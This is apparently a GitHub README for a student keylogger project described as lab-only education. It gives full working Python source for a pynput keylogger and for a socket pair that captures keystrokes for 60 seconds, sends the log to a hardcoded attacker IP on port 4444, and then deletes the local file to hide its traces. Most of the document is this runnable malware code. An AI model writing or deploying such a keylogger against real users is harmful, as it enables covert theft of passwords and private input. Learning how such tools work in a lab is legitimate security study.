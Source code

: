 # Python Keylogger Project
This is my attempt at a Python Keylogger Project, done purely for educational purposes in a lab environment. The main goal is to understand how malicious software can track user input and exfiltrate that data.  I’ve divided the project into different phases to gradually build up from basic functionality to something more advanced.

The goal is:
- Understand how keystrokes can be captured in real time using Python
- Learn about network programming using sockets for data transfer
- Simulate basic data exfiltration from one machine to another

I've divided this project into 2 parts:
- Phase 1: Keylogging own keys on the Kali VM
- Phase 2: Keylogging on another system and sending it back to the Kali VM

## Phase 1 : Keylogging own keys on the Kali VM

I've written a simple Python code that uses the 'keyboard' module from the 'pynput' library, which tracks key presses in real time, from my own machine. Here is the code:

```python
from pynput import keyboard

log = "keylog.txt"

def on_press(key):
    try:
        with open(log, "a") as f:
            f.write(f"{key.char}")
    except AttributeError:
        pass
        
listener = keyboard.Listener(on_press=on_press)
listener.start()
listener.join()
```

Once I was done with it, I ran this code to see if it works. And as you can see it works as expected, but the words are all mashed together, no space or enters.

Here's the updated code for it:

```python
from pynput import keyboard

log = "keylog.txt"

def on_press(key):
    try:
        with open(log, "a") as f:
            f.write(f"{key.char}")
    except AttributeError:
        if key == keyboard.Key.space:
            with open(log, "a") as f:
                f.write(" ")
        elif key == keyboard.Key.enter:
            with open(log, "a") as f:
                f.write("\n")
        
listener = keyboard.Listener(on_press=on_press)
listener.start()
listener.join()
```

Then I ran the updated code again and it works perfectly as it has to, as you can see in the screenshot.

That was Phase 1 of my Project. Now onto Phase 2.

## Phase 2 : Keylogging on another system and sending it back to the Kali VM

The main goal of this phase is to be able to get back the keylog.txt file from  another computer or VM, and delete itself after (just to mimic a malware, for the sake of this project).

For that I have written 2 codes, one for the receiving end and one for the send. The receiver end will only have a code that attempts to receive the file, and the send code, will have the actual keylogger code plus the send part of the code to send it back.

For this I've used the 'socket' module to enable functions that I can use to interact with the network functions for Python.

Here is the 'receiver.py' code which hosts on the Kali VM:

```python
import socket

def receive_log():
    host = "0.0.0.0"
    port = 4444

    with socket.socket() as s:
        s.bind((host, port))
        s.listen(1)
        conn, addr = s.accept()
        print(f"[+] Connection from {addr}")

        with open("received_keylog.txt", "wb") as f:
            while True:
                data = conn.recv(1024)
                if b"DONE" in data:
                    break
                f.write(data)

receive_log()
```

And here is the 'send_code.py' code which hosts on the Kali VM:

```python
from pynput import keyboard
import socket
import time
import os  # Added for file deletion

log = "keylog.txt"
start_time = time.time()
duration = 60  # run for 60 seconds

def on_press(key):
    if time.time() - start_time > duration:
        return False

    try:
        with open(log, "a") as f:
            f.write(f"{key.char}")
    except AttributeError:
        if key == keyboard.Key.space:
            with open(log, "a") as f:
                f.write(" ")
        elif key == keyboard.Key.enter:
            with open(log, "a") as f:
                f.write("\n")
        # Other special keys are ignored

def send_log():
    host = "192.168.29.132"  # Replace with attacker VM IP
    port = 4444

    try:
        with socket.socket() as s:
            s.connect((host, port))
            with open(log, "rb") as f:
                data = f.read()
                s.sendall(data)
                time.sleep(1)
                s.send(b"DONE")

        # Delete the log file after successful send
        os.remove(log)
    except:
        pass

with keyboard.Listener(on_press=on_press) as listener:
    listener.join()

send_log()
```

Now I will first run the code on the receiver side and then the sender's side.

As we can see it works perfectly.

## Conclusion:
To complete this project, I had to first learn how to use the keyboard module from the pynput library, which was new to me. It helped me track keystrokes in real time and understand how to handle normal key inputs vs special ones like space and enter. I also learned how to clean up the output to make the logged text readable, which made a big difference in how useful the logs actually were.

Then for Phase 2, I had to figure out how to send files between systems. For that, I learned how to use Python’s socket module, which gave me the tools to open up a connection between two VMs and send the keylog file across the network. I also added a small automation step to delete the file after it’s been sent successfully, just to keep things clean.

Overall, this project helped me get more comfortable with writing small scripts that simulate basic attack behavior in a safe lab environment. It also gave me a better understanding of how keystroke logging and data exfiltration actually works under the hood, which I think is useful knowledge to have for anyone going into cybersecurity.
